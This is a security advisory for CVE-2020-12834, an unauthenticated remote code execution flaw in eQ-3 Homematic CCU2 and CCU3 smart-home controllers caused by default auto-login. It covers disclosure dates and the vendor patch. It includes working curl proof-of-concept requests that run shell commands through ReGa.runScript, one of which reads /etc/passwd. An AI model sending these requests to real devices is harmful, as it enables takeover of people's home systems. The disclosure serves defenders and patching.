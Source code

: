 ```yaml
---
layout: post
title:  "CVE-2020-12834 eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)"
datetime: 2020-05-13 20:00:00 MEST
last_modified_at: 2020-08-25 19:15:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2020-12834
- Author: psytester
- Title: eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)
- Vulnerability Type: CWE-285: Improper Authorization
-	CVSSv3 Base Score: 8.3
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H
- Publishing Date: 14.05.2020
- Updated: 25.08.2020
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.05.2020
- Vendor confirmation: 15.05.2020
- Vendor patch CCU2: 2.53.27 since 25.08.2020
- Vendor patch CCU3: 3.53.26 since 18.08.2020
- Vendor Reference: [HMCCU-604] in changelog of CCU2 and CCU3 "Das Auto-Login ist nach der Erstinbetriebnahme der CCU deaktiviert."
- Affected Firmware version of CCU2: 2.51.6 and prior tested
- Affected Firmware version of CCU3: 3.51.6 and prior tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/detail/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

In the past, the vendor has never reacted or just very slow to any security report of me. That's why I publish this vulnerability after reporting to vendor without any waiting period.

# Issue Description

During the first time setup or after factory reset a password for WebUI user 'Admin' has to be set, but an auto-login function is set by default.<br>
According to the support this is to facilitate the initial setup.<br>
Switching off this auto-login is not well intuitive. Go to WebUI Home page > Settings > User management page. Click on below button "Log in automatically" next to buttons "Back" and "New".<br>
In "User selection" select from drop down menu "not selected" and finally click "OK".<br>
How many users are aware of this?

And only here you can see the the security alert:
```
Attention!
If automatic login is activated you will be logged-in to the system without entering your user name or password.
The selected user will be logged-in automatically without further validation. The system is no longer protected against external influences.
You can access other user accounts with click on "Login". Afterwards, please login with the user name and password again.
```

This attack vector is inspired by [CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850), where a manual login of the admin is required to use the JSON API method ReGa.runScript.<br>
Inside the runScript the undocumented `system.Exec()` call is used which executes plain unix commands.<br>
As a CCU is an ARM System using a Buildroot Busybox system all linux commands you may want to use are possible and you can code a complete shell script.

The following HTTP requests in Web Browser illustrates the attack vectors:

Open the WebUI to be auto-login `http://1.2.3.4/` will redirect to `http://1.2.3.4/pages/index.htm?sid=@7eY56glHVz@`<br>
Extract the session id `7eY56glHVz` for further usage in JSON API call as "_session_id_" value:

```
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"sleep 4;cat /etc/passwd\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"/bin/touch /tmp/testfile\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
```

# CVE

[CVE-2020-12834](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12834)

# CVSSv3 Base Score

CVSSv3 Base Score: 8.3

CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H

# Firmware update since August 2020
With firmware CCU3: 3.53.26 and CCU2: 2.53.27 during the first time setup or after factory reset a password for WebUI user 'Admin' has to be set AND by now the auto-login function is switched off by default.<br>
Notice: Existing systems that only apply the update will still have the auto-login active, if this was not removed before.

/www/rega/pages/tabs/admin/adminFirstStart.htm
```
iseUser.setAutoLogin(0, 0);
```

# Credit

[psytester](https://psytester.github.io), but I was inspired by [Joshua Lehr CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
